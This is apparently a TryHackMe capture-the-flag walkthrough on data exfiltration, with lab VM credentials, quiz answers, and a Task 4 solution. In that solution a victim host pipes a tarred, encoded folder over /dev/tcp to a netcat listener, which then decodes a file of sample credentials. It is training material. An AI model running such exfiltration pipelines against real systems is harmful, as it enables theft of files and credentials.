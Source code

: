 # Data Exfiltration

## Task 1  Introduction
+ Learning Objectives
    - What is Data exfiltration?
    - Understand data exfiltration types and how they can be used.
    - Practice data exfiltration over protocols: Sockets, SSH, ICMP, HTTP(s), and DNS.
    - Practice C2 communications over various protocols.
    - Practice establishing Tunneling over DNS and HTTP.

## Task 2  Network Infrastructure
+ Deploy the VM
Machine IP: 10.10.223.157
Username: thm
Password: tryhackme

ssh thm@10.10.223.157

## Task 3  Data Exfiltration
+ In which case scenario will sending and receiving traffic continue during the connection?`tunnelling`
+ In which case scenario will sending and receiving traffic be in one direction?`traditional Data Exfiltration`
+ In the next task, we will be discussing how data exfiltration over the TCP socket works! `No Answer Needed`

## Task 4  Exfiltration using TCP socket
+ Exfiltration using TCP sockets relies on ____________ protocols! `non-standard`
+ Now apply what we discussed to exfiltrate data over the TCP socket! Once you exfiltrate data successfully, hit Completed to move on to the next task!`No Answer Needed`


+ On JumpBox
```bash
thm@jump-box:~$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on 0.0.0.0 8080
Connection received on victim-thm1.thm-pri-net 51220
```

+ On the Victim
```bash
thm@victim1:~$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
244 bytes copied, 0.115765 s, 2.1 kB/s
```
+ Check Data Exfiltered on jumpbox
```bash
thm@jump-box:~$ cd /tmp
thm@jump-box:/tmp$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
0+1 records in
0+1 records out
244 bytes copied, 0.000211677 s, 1.2 MB/s
thm@jump-box:/tmp$ ls
task4-creds.data  task4-creds.tar
thm@jump-box:/tmp$ tar xvf task4-creds.tar
task4/
task4/creds.txt
thm@jump-box:/tmp$ cat task4/creds.txt 
admin:password
Admin:123456
root:toor
```
